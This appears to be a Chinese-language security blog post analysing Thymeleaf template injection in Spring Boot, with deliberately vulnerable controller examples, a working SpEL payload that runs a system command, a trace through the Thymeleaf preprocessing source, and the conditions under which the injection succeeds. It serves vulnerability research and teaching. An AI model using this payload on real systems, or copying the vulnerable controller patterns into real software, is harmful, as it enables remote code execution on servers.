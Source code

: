 ```yaml
---
layout:     post
title:      Java-Thymeleaf-模板注入分析
subtitle:   简单分析
date:       2020-9-22
author:     BY Diego
header-img: /img/wenzhang/Thymeleaf.jpg
catalog: true
tags:
    - Java
    - 命令注入
---
```


# Java Thymeleaf 模板注入分析

## 模板基本用法



在 springboot 常与 Thymeleaf  搭配使用

模板使用方法，return 为模板的名称

![wHnPeJ.png](https://s1.ax1x.com/2020/09/21/wHnPeJ.png)



![wHn9L4.png](https://s1.ax1x.com/2020/09/21/wHn9L4.png)



效果

![](https://s1.ax1x.com/2020/09/21/wHn6pV.png)



常见用法

https://waylau.gitbooks.io/thymeleaf-tutorial/content/docs/standard-expression-syntax.html

## 模板注入



当return 可控时，或者 返回值为空但url 可控时 就存在模板注入

```java
@Controller
@RequestMapping("/thymeleaf")
public class IndexController {

    //情况一
    @GetMapping("/test")
    public String test(String test){
        return test;
    }

    // 情况二
    @GetMapping("/test1/{test}")
    public void test1(){

    }
}
```



测试payload 

```
__${T(java.lang.Runtime).getRuntime().exec("calc")}__::.x
```





![wHKbee.png](https://s1.ax1x.com/2020/09/21/wHKbee.png)



![wHMuOU.png](https://s1.ax1x.com/2020/09/21/wHMuOU.png)



## 漏洞分析



情况一

在 `org.thymeleaf.spring5.view` 中的 `renderFragment`方法

`viewTemplateName` 的值即为可控输入，并return的值 ，如果值中包含`::` 则进入下面的分只（278行）,然后拼接成 `~{__${T(java.lang.Runtime).getRuntime().exec("calc")}__::.x}`

![wHMzN9.png](https://s1.ax1x.com/2020/09/21/wHMzN9.png)

跟进

![wH3R8s.png](https://s1.ax1x.com/2020/09/21/wH3R8s.png)



`input` 值被 `StandardExpressionPreprocessor.preprocess`处理 

![wH12X6.png](https://s1.ax1x.com/2020/09/21/wH12X6.png)



处理代码,有一个正则匹配`\_\_(.*?)\_\_` 。处理后变成 `${T(java.lang.Runtime).getRuntime().exec("calc")}`

```java
 static String preprocess(
            final IExpressionContext context,
            final String input) {
           //PREPROCESS_DELIMITER 的值为 _
        if (input.indexOf(PREPROCESS_DELIMITER) == -1) {
            // Fail quick
            return input;
        }

        final IStandardExpressionParser expressionParser = StandardExpressions.getExpressionParser(context.getConfiguration());
        if (!(expressionParser instanceof StandardExpressionParser)) {
            // Preprocess will be only available for the StandardExpressionParser, because the preprocessor
            // depends on this specific implementation of the parser.
            return input;
        }
			//PREPROCESS_EVAL_PATTERN  的值为 \_\_(.*?)\_\_
        final Matcher matcher = PREPROCESS_EVAL_PATTERN.matcher(input);
        
        if (matcher.find()) {

            final StringBuilder strBuilder = new StringBuilder(input.length() + 24);
            int curr = 0;
            
            do {
                
                final String previousText = 
                        checkPreprocessingMarkUnescaping(input.substring(curr,matcher.start(0)));
                final String expressionText = 
                        checkPreprocessingMarkUnescaping(matcher.group(1));
                        
                strBuilder.append(previousText);
                
                final IStandardExpression expression =
                        StandardExpressionParser.parseExpression(context, expressionText, false);
                if (expression == null) {
                    return null;
                }
                
                final Object result = expression.execute(context, StandardExpressionExecutionContext.RESTRICTED);
                
                strBuilder.append(result);
                
                curr = matcher.end(0);
                
            } while (matcher.find());
            
            final String remaining = checkPreprocessingMarkUnescaping(input.substring(curr));
            
            strBuilder.append(remaining);
            
            return strBuilder.toString().trim();
            
        }
        
        return checkPreprocessingMarkUnescaping(input);
        
    }
```



继续跟进到`execute`方法

![wHMXBF.png](https://s1.ax1x.com/2020/09/21/wHMXBF.png)



下图可以看到是使用的`SPEL` 引擎，因此只要满足`__(${SPEL})__::` 这中格式即可达到注入效果，不管前后有何值（除去redirect:等），绕过可用SPEL 的绕过方式

![wHMxAJ.png](https://s1.ax1x.com/2020/09/21/wHMxAJ.png)



情况二也类似

如果return 为空，那么url就会当作模板值



## 利用条件



不能有` @ResponseBody` 或者 `@RestController`

如下

```java
    @GetMapping("/test")
    @ResponseBody
    public String test(String test){
        return test;
    }
```



方法参数中不能有 `HttpServletResponse`

```java
    @GetMapping("/system/menuStyle/{style}")
    public void menuStyle(@PathVariable String style, HttpServletResponse response)
    {
        CookieUtils.setCookie(response, "nav-style", style);
    }
```



在返回值前面不能加 "redirect:"

```java
  @GetMapping("/test")
    public String test(String test){
        return "redirect:" + test ;
    }
```


